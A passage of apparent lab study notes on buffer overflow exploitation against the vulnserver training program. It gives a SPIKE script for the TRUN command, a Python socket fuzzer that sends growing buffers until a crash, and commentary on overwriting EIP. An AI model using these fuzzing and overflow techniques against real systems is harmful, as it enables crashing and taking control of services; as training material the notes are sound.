 ```bash

#now we look at trun to spike
#edit script for trun
gedit trun.spk

#trun.spk script
s_readline();
s_string("TRUN ");
s_string_variable("0");

#ready to send
generic_send_tcp 192.168.1.90 9999 trun.spk 0 0 #observe immunity on win
```
- Immunity shows access violation - this is good, showing something is vulnerable
	- can look at Registers window to see what is happening 
		- can see the characters are overflowing out of the buffer space
		- EIP is 41414141 >> hex code for four "A"'s

### Fuzzing
In WIN box: need to run vulnserver and immunity debugger as admin 
- similar to spiking, but done after we find what's vulnerable (we found trun)
- we will be utilizing a python script: 1.py
```python
#!/usr/bin/python

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		payload = "TRUN /.:/" + buffer
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.1.35',9999))
		
		print ("[+] Sending the payload...\n" + str(len(buffer)))
		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```
- in kali
```bash
gedit 1.py #save script
chmod +x 1.py #make executable
./1.py #run
#observe immunity to see when crash happens
```
- can see fuzzing crashed at 2700 bytes
- now we need to find where the EIP is at (offset), controlling the EIP value is the key to root

